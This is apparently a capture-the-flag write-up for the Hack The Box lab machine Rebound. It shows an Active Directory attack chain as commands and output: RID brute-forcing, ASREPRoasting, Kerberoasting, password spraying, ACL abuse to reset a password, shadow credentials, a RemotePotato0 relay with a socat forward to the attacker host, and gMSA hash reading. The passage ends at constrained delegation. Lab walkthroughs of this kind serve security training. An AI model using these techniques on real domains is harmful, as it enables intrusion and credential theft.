---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Rebound

## Summary

[Rebound](https://app.hackthebox.com/machines/560) is an <mark style="color:red;">insane-rated</mark> box which feels like solving a challenging puzzle. Securing a **foothold** involves nagivating multiple steps, such as [**RID**](#user-content-fn-1)[^1] **brute-forcing**, [**kerberoasting**](../../../tl-dr/tl-dr/active-directory/attacks/kerberoasting.md) (without domain credentials!), **password spraying**, and thorough **domain analysis** using [BloodHound](../../../tools/tools/active-directory/bloodhound.md). The path to **domain compromise** entails acquiring access [**gMSA**](#user-content-fn-2)[^2] **credentials**, and **exploiting delegation rights** to execute a [**DCsync attack**](../../../tl-dr/tl-dr/active-directory/attacks/dcsync.md).


<table><thead><tr><th width="85" align="right">Step</th><th width="187">Action</th><th width="240">Tool</th><th width="235">Gained</th></tr></thead><tbody><tr><td align="right">1</td><td>Brute-Force RIDs</td><td><a href="../../../tools/tools/active-directory/netexec-cme.md">NXC</a></td><td>User list</td></tr><tr><td align="right">2</td><td><a href="../../../tl-dr/tl-dr/active-directory/attacks/asreproasting.md">ASREPRoasting</a></td><td><a href="../../../tools/tools/active-directory/netexec-cme.md">NXC</a></td><td>Account for step 3</td></tr><tr><td align="right">3</td><td><a href="../../../tl-dr/tl-dr/active-directory/attacks/kerberoasting.md">Kerberoasting</a></td><td><a href="https://github.com/fortra/impacket/tree/master">Impacket</a></td><td>Domain credentials</td></tr><tr><td align="right">4</td><td>Password spray</td><td><a href="../../../tools/tools/active-directory/netexec-cme.md">NXC</a></td><td>Domain credentials</td></tr><tr><td align="right">5</td><td>Domain enumeration</td><td><a href="../../../tools/tools/active-directory/netexec-cme.md">NXC</a>, <a href="../../../tools/tools/active-directory/bloodhound.md">BloodHound</a></td><td><a data-footnote-ref href="#user-content-fn-3">EoP</a> path</td></tr><tr><td align="right">6</td><td>EoP exploitation</td><td><a href="../../../tools/tools/active-directory/powerview.py.md">Powerview</a>, <a href="../../../tools/tools/active-directory/bloodyad.md">bloodyAD</a></td><td>Foothold</td></tr><tr><td align="right">7</td><td>System enumeration</td><td><a href="https://github.com/antonioCoco/RunasCs">RunasCs</a>, <a href="https://github.com/antonioCoco/RemotePotato0">RemotePotato0</a></td><td>Domain credentials</td></tr><tr><td align="right">8</td><td>User enumeration</td><td><a href="../../../tools/tools/active-directory/netexec-cme.md">NXC</a>, <a href="../../../tools/tools/active-directory/bloodhound.md">BloodHound</a></td><td>Domain credentials</td></tr><tr><td align="right">9</td><td>Delegations</td><td><a href="https://github.com/fortra/impacket/tree/master">Impacket</a>, <a href="../../../tools/tools/active-directory/bloodyad.md">bloodyAD</a></td><td>EoP</td></tr><tr><td align="right">10</td><td><a href="../../../tl-dr/tl-dr/active-directory/attacks/dcsync.md">DCSync</a></td><td><a href="https://github.com/fortra/impacket/tree/master">Impacket</a></td><td>Domain compromise</td></tr></tbody></table>

## Recon

### Information Gathering

Let's start with our [ritualistic nmap scan](../../../tools/tools/port-scanners/nmap.md#nmap-flow) (Figure 1).

```bash
nmap-scan.sh 10.10.11.231
Creating directory...
Performing initial scan...
Extracting ports...
Performing an aggresive scan on open ports...
All done! See results: less scans/aggressive_scan.nmap
```

<figure><figcaption><p>Figure 1: Services listening on the Rebound machine.</p></figcaption></figure>

Let's write some things down:

* Based on services like DNS (`53`), Kerberos (`88`) and LDAP (`3268`) we are dealing with a DC[^4].
* The FQDN[^5] is `DC01.REBOUND.HTB`.
* SMB is available (`445`).
* WinRM is also available (`5985`). &#x20;

Our plan moving forwards would be to:

1. Add the hostname (`DC01`), domain (`REBOUND.HTB`), and FQDN (`DC01.REBOUND.HTB`) to our local DNS file (`/etc/hosts`).
2. See what information we can get out of the SMB server.
3. See what information we can get out of the LDAP server.

```bash
$ grep rebound /etc/hosts
10.10.11.231    dc01 rebound.htb dc01.rebound.htb
```

### Brute-Forcing RIDs

Quering the SMB server about its shares without passing any or using empty (`' '`) credentials does not work, but `guest` does the trick. There is just one non-default share (`Shared`) but its seems empty  (Figure 2).


```bash
# enumerating share access
nxc smb dc01 -u 'guest' -p '' --shares
# spidering the specified share
nxc smb dc01 -u 'guest' -p '' --spider Shared --regex .
```


<figure><figcaption><p>Figure 2: Enumerating and spidering SMB shares.</p></figcaption></figure>

Using the `--users` flag returns nothing, but we can always try brute-force RIDs (Figure 3).

<figure><figcaption><p>Figure 3: Enumerating users using SMB.</p></figcaption></figure>

Only the last 3 lines of the above output are actual users, which is kind of odd. In addition, we can see that `fflock` has the RID of `3382` which is close to [NXC](../../../tools/tools/active-directory/netexec-cme.md)'s default max RID (`4000`). Let's increase that to see if more usernames pop up (Figure 4).

<pre class="language-bash"><code class="lang-bash"><strong>nxc smb dc01 -u 'guest' -p '' --rid-brute 10000
</strong></code></pre>

<figure><figcaption><p>Figure 4: Enumerating users while with RID up to 10000.</p></figcaption></figure>

We get back 10 more usernames, a total of 13! Let's create a username list.

```bash
# write NXC's output into a file
nxc smb dc01 -u 'guest' -p '' --rid-brute > nxc_users
# extract the usernames
cat nxc_users | awk '{print $6}' | awk -F'\' '{print $2}' | tail -n13
ppaul
llune
fflock
jjones
mmalone
nnoon
ldap_monitor
oorend
ServiceMgmt
winrm_svc
batch_runner
tbrady
delegator$
# extract and write the last 3 lines into a file
cat nxc_users | awk '{print $6}' | awk -F'\' '{print $2}' | tail -n13 > dom_users
```

## Foothold

### Kerberoasting

The first thing we always do when we obtain valid domain usernames is to check if any of them are vulnerable to [ASREPRoasting](../../../tl-dr/tl-dr/active-directory/attacks/asreproasting.md).


```bash
nxc ldap dc01 -u dom_users -p '' --asreproast asreproast.lst
SMB         10.10.11.231    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.231    445    DC01             $krb5asrep$23$jjones@REBOUND.HTB:5cd9a482dd659d184098afef05d268d4$82239f120ad02681021346c6a7b6d1f76ce6b0c0e1292206fd056a1136c52428b78d1e909944d8d633957bb76dd625afc4fcea0b48310b7b4861550c969c4392dfdfc6cbb36099b3e0fcf7e96f20011e2c36f1faf6b2b67877db5ad0a5922e984d3ea3e24cdfc33425028828007703f913a4232568cf4aff69d457443f418606f03fce800057b01bcac7f2ab8d54a9494206ac9937903b82ac9d85980db467d9d0fe373dcc6bc1ca2a72c85c4f2aa4e0e4f4b8bdfdef491c71e1f954be0288b02f12ed537234711537efa5dd1051a8aca7ec640f93f59e9fbf58179d1f0731e1ff3c1ebf859728b91776
```


It seems we get a hit! Sadly, [`hashcat`](../../../tools/tools/passwords/hashcat.md) is not able to crack it.

```bash
hashcat -m18200 asreproast.lst /usr/share/wordlists/rockyou
```

Typically, [Kerberoasting](../../../tl-dr/tl-dr/active-directory/attacks/kerberoasting.md) needs domain credentials, but according to [new research](https://www.semperis.com/blog/new-attack-paths-as-requested-sts/), it is possible to perform this attack using an ASREPRoastable account. In our case, we have `jjones`, so let's try it out (Figure 5).


```bash
# cloning impacket
sudo git clone https://github.com/fortra/impacket
Cloning into 'impacket'...
remote: Enumerating objects: 23474, done.
remote: Counting objects: 100% (48/48), done.
remote: Compressing objects: 100% (38/38), done.
remote: Total 23474 (delta 19), reused 27 (delta 10), pack-reused 23426
Receiving objects: 100% (23474/23474), 9.97 MiB | 9.29 MiB/s, done.
Resolving deltas: 100% (17811/17811), done.
# kerberoasting
sudo python3 /opt/impacket/examples/GetUserSPNs.py -no-preauth jjones -usersfile dom_users -dc-host 10.10.11.231 rebound.htb/ -outputfile kerb.txt
# checking output
cat kerb.txt
```


<figure><figcaption><p>Figure 5: Kerberoasting without domain credentials!</p></figcaption></figure>

Luckily for us, `hashcat` is able to crack `ldap_monitor`'s account password this time.


```bash
hashcat -m13100 kerb.txt /usr/share/wordlists/rockyou
<SNIP>
$krb5tgs$23$*ldap_monitor$REBOUND.HTB$ldap_monitor*$fde<SNIP>bee:1GR8t@$$4u
<SNIP>
```


### Password Spraying

Unfortunately, this account does not have WinRM access. We can continue by performing a password spray attack to check if `ldap_monitor`'s password is being reused (Figure 6).

<figure><figcaption><p>Figure 6: Performing a password spray attack.</p></figcaption></figure>

It seems that this password is used in 3 different accounts, but none has WinRM access. Not much we can do with any of them, so let's turn to [BloodHound](../../../tools/tools/active-directory/bloodhound.md).

### BloodHound

After some analysis, a path to the foothold is revealed (Figure 7).


```bash
nxc ldap dc01.rebound.htb -u ldap_monitor -p ldap_monitor_pass -k --bloodhound -ns 10.10.11.231 -c Group,LocalADmin,RDP,DCOM,Container,PSRemote,Session,Acl,Trusts,LoggedOn
```


<figure><figcaption><p>Figure 7: Analyzing domain data with BloodHound.</p></figcaption></figure>

Based on the above information, our plan is the following:

1. `oorend` has [`AddSelf`](../../../tl-dr/tl-dr/active-directory/rights/addself.md) rights over `ServiceMgmt` group so it can add itself to it.
2. The `ServiceMgmt` group has [`GenericAll`](../../../tl-dr/tl-dr/active-directory/rights/genericall.md) rights over the `Service Users` OU, which means that it has total control over its members, and therefore, can change the password of `WinRM_svc`.
3. `WinRM_svc` is a member of the `Remote Management Users` group, which means it can be used to log into the box via the WinRM protocol.

```bash
# connecting to the DC
powerview rebound.htb/oorend:'1GR8t@$$4u'@rebound.htb -k
Logging directory is set to /home/x7331/.powerview/logs/rebound.htb
(LDAPS)-[rebound.htb]-[rebound\oorend]
# adding user to the group
PV > Add-DomainGroupMember -Identity servicemgmt -Members oorend
[2024-04-14 07:41:14] User oorend successfully added to servicemgmt
# confirming group membership
PV > Get-DomainGroupMember -Identity servicemgmt
GroupDomainName             : ServiceMgmt
GroupDistinguishedName      : CN=ServiceMgmt,CN=Users,DC=rebound,DC=htb
MemberDomain                : rebound.htb
MemberName                  : ppaul
MemberDistinguishedName     : CN=ppaul,CN=Users,DC=rebound,DC=htb
MemberSID                   : S-1-5-21-4078382237-1492182817-2568127209-1951

GroupDomainName             : ServiceMgmt
GroupDistinguishedName      : CN=ServiceMgmt,CN=Users,DC=rebound,DC=htb
MemberDomain                : rebound.htb
MemberName                  : fflock
MemberDistinguishedName     : CN=fflock,CN=Users,DC=rebound,DC=htb
MemberSID                   : S-1-5-21-4078382237-1492182817-2568127209-3382

GroupDomainName             : ServiceMgmt
GroupDistinguishedName      : CN=ServiceMgmt,CN=Users,DC=rebound,DC=htb
MemberDomain                : rebound.htb
MemberName                  : oorend
MemberDistinguishedName     : CN=oorend,CN=Users,DC=rebound,DC=htb
MemberSID                   : S-1-5-21-4078382237-1492182817-2568127209-7682
```

Next, let's give `oorend` `GenericAll` rights over the `Service Users` OU.


```bash
bloodyAD -d rebound.htb -u oorend -p '1GR8t@$$4u' --host dc01.rebound.htb add genericAll 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' oorend
[+] oorend has now GenericAll on OU=SERVICE USERS,DC=REBOUND,DC=HTB
# confirm FullControl of oorend over winrm_svc
PV > Get-DomainObjectAcl -Identity winrm_svc -Where "SecurityIdentifier contains oorend"
ObjectDN                    : CN=winrm_svc,OU=Service Users,DC=rebound,DC=htb
ObjectSID                   : S-1-5-21-4078382237-1492182817-2568127209-7684
ACEType                     : ACCESS_ALLOWED_ACE
ACEFlags                    : CONTAINER_INHERIT_ACE, INHERITED_ACE, OBJECT_INHERIT_ACE
ActiveDirectoryRights       : FullControl
AccessMask                  : 0xf01ff
InheritanceType             : None
SecurityIdentifier          : oorend (S-1-5-21-4078382237-1492182817-2568127209-7682)
```


With `FullControl` rights, we can now change `winrm_svc`'s password.


```bash
# changing winrm_svc's password
bloodyAD -d rebound.htb -u oorend -p '1GR8t@$$4u' --host dc01.rebound.htb set password winrm_svc 'Password123!'
[+] Password changed successfully!
# confirm WinRM access
$ nxc winrm 10.10.11.231 -u winrm_svc -p winrm_svc_pass
WINRM       10.10.11.231    5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:rebound.htb)
WINRM       10.10.11.231    5985   DC01             [+] rebound.htb\winrm_svc:******** (Pwn3d!)
# loggging into the machine via WinRM
evil-winrm -i 10.10.11.231 -u winrm_svc -p $(cat winrm_svc_pass)

<SNIP>
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> type ..\Desktop\user.txt
07e<REDACTED>6e3
```


### Shadow Credentials

Instead of changing `winrm_svc`'s password, a more stealthy way would be to use a [shadow credential](../../../tl-dr/tl-dr/active-directory/rights/fullcontrol.md#shadow-credential) in order to obtain its NT hash and then use it to obtain our foothold.


```bash
certipy shadow auto -username oorend@rebound.htb -password '1GR8t@$$4u' -k -account winrm_svc -target dc01.rebound.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'winrm_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '944a2974-ff0a-2169-27cb-7729bc77e22b'
[*] Adding Key Credential with device ID '944a2974-ff0a-2169-27cb-7729bc77e22b' to the Key Credentials for 'winrm_svc'
[*] Successfully added Key Credential with device ID '944a2974-ff0a-2169-27cb-7729bc77e22b' to the Key Credentials for 'winrm_svc'
[*] Authenticating as 'winrm_svc' with the certificate
[*] Using principal: winrm_svc@rebound.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'winrm_svc.ccache'
[*] Trying to retrieve NT hash for 'winrm_svc'
[*] Restoring the old Key Credentials for 'winrm_svc'
[*] Successfully restored the old Key Credentials for 'winrm_svc'
[*] NT hash for 'winrm_svc': 4469650fd892e98933b4536d2e86e512
```


## Elevation of Privileges

When we take a look at the running processes, we can see that there are 2 sessions: `0` (ours) and `1`. Querying session information directly using [`qwinsta`](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/qwinsta) won't work as it can only be executed locally and not remotely.&#x20;

```bash
# listing running processes
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> ps

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    441      32    12084      20840              2620   0 certsrv
    494      20     2700       5824               388   0 csrss
    267      16     1912       5160               500   1 csrss
    361      15     3472      14944              5668   1 ctfmon
    401      33    15932      24384              2720   0 dfsrs
    158       8     1908       6352              2896   0 dfssvc
    288      14     3812      13764              3780   0 dllhost
    378      29     7096      12040              2752   0 dns
    580      24    24252      50456                60   1 dwm
   1409      55    22076      83956              5932   1 explorer
# checking active sessions
*Evil-WinRM* PS C:\> qwinsta *
qwinsta.exe : No session exists for *
    + CategoryInfo          : NotSpecified: (No session exists for *:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
```

As a result, we will have to execute `qwinsta` via Runas. When we do, we see that the account `tbrady` is currently logged on.


```powershell
# uploading runas to the target
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> upload RunasCs.exe
Info: Uploading /opt/RunasCs/RunasCs.exe to \programdata\RunasCs.exe
                                                             
Data: 68948 bytes of 68948 bytes copied

Info: Upload successful!
# checking active sessions with runas
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> .\RunasCs.exe x x qwinsta -l 9

 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
>services                                    0  Disc
 console           tbrady                    1  Active
```


Looking for information about `tbrady` on BloodHound, we find out that is has the [`ReadGMSAPassword`](../../../tl-dr/tl-dr/active-directory/rights/readgmsapassword.md) right over the machine account `Delegators$` (Figure 8).

<figure><figcaption><p>Figure 8: Finding out how the ReadGMSAPassword right can be abused.</p></figcaption></figure>

Since this is our only way forward for now, let's try to get a hold of the `tbrady` account via a **cross session relay**. We will perform this attack using [RemotePotato0](https://github.com/antonioCoco/RemotePotato0) which, in brief, triggers an NTLM authentication of any currently logged on user, in our case `tbrady`.  Based on exploit repository's guidance, we need to set up a `socat` listener on our attack host and then run the exploit on the target using method 2.


```bash
# setting up a socal listener on the attack host that listens on port 135 and forwards the traffic to the target host on port 9999
sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:10.10.11.231:9999
```



```bash
# uploading the executable on the target
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> upload RemotePotato0.exe

Info: Uploading /home/x7331/Documents/htb/boxes/rebound/RemotePotato0.exe to C:\Users\winrm_svc\Documents\RemotePotato0.exe

Data: 235520 bytes of 235520 bytes copied

Info: Upload successful!

# executing the exploit
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> .\RemotePotato0.exe -m 2 -s 1 -x 10.10.14.42 -p 9999
[*] Detected a Windows Server version not compatible with JuicyPotato. RogueOxidResolver must be run remotely. Remember to forward tcp port 135 on (null) to your victim machine on port 9999
[*] Example Network redirector:
        sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:{{ThisMachineIp}}:9999
[*] Starting the RPC server to capture the credentials hash from the user authentication!!
[*] Spawning COM object in the session: 1
[*] Calling StandardGetInstanceFromIStorage with CLSID:{5167B42F-C111-47A1-ACC4-8EABE61B0B54}
[*] RPC relay server listening on port 9997 ...
[*] Starting RogueOxidResolver RPC Server listening on port 9999 ...
[*] IStoragetrigger written: 104 bytes
[*] ServerAlive2 RPC Call
[*] ResolveOxid2 RPC call
[+] Received the relayed authentication on the RPC relay server on port 9997
[*] Connected to RPC Server 127.0.0.1 on port 9999
[+] User hash stolen!

NTLMv2 Client   : DC01
NTLMv2 Username : rebound\tbrady
NTLMv2 Hash     : tbrady::rebound:42a6968a990e5af3:db618a98b3edca67e0cbeb2354ec27f8:010100000000000098dc30ec958eda01a421b28cc4a4d4790000000002000e007200650062006f0075006e006400010008004400430030003100040016007200650062006f0075006e0064002e006800740062000300200064006300300031002e007200650062006f0075006e0064002e00680074006200050016007200650062006f0075006e0064002e006800740062000700080098dc30ec958eda0106000400060000000800300030000000000000000100000000200000da686eb8a7e26fcc93be3d0bacd9e34954c1a15b413eaeae97885b4b996610fa0a00100000000000000000000000000000000000090000000000000000000000
```


Next, we will pass the NTLMv2 hash to hashcat.

```bash
# cracking the hash
hashcat -m5600 tbrady_hash /usr/share/wordlists/rockyou

<SNIP>
TBRADY::rebound:42a<SNIP>000:543BOMBOMBUNmanda
<SNIP>
```

### GMSA Hash

A [**group Managed Service Account (gMSA)**](https://learn.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview) is essentially a [_standalone Manged Service Account (sMSA)_](https://learn.microsoft.com/en-us/entra/architecture/service-accounts-standalone-managed) whose functionality extends over multiple servers. This type of service accounts are considered more secure than others because they have automatic password management: a long DC-generated password and automatic password rotation at a regural interval, among other features.

The `tbrady` account has `ReadGMSAPassword` rights over `delegator$`, which means that it can read its gMSA hash (Figure 9).


```bash
nxc ldap dc01.rebound.htb -u tbrady -p tbrady_pass -k --gmsa
```


<figure><figcaption><p>Figure 9: Reading the NTLM hash of delegator$.</p></figcaption></figure>

### RBCD[^6]

With the account named `delegator$`, it is only logical to check for [delegation](../../../tl-dr/tl-dr/active-directory/attacks/delegations.md) rights (Figure 10).

```bash
impacket-findDelegation rebound.htb/oorend:'1GR8t@$$4u' -dc-ip 10.10.11.231 -k
```

<figure><figcaption><p>Figure 10: Check for delegated accounts.</p></figcaption></figure>

`delegator$` has constrained delegation over `http/dc01.rebound.htb`, which means that it's allowed to request a ST[^7] for any user for the HTTP service running on `dc01$`.  This can be exploited by obtaining a ST[^8] for the HTTP service while impersonating the user we want.

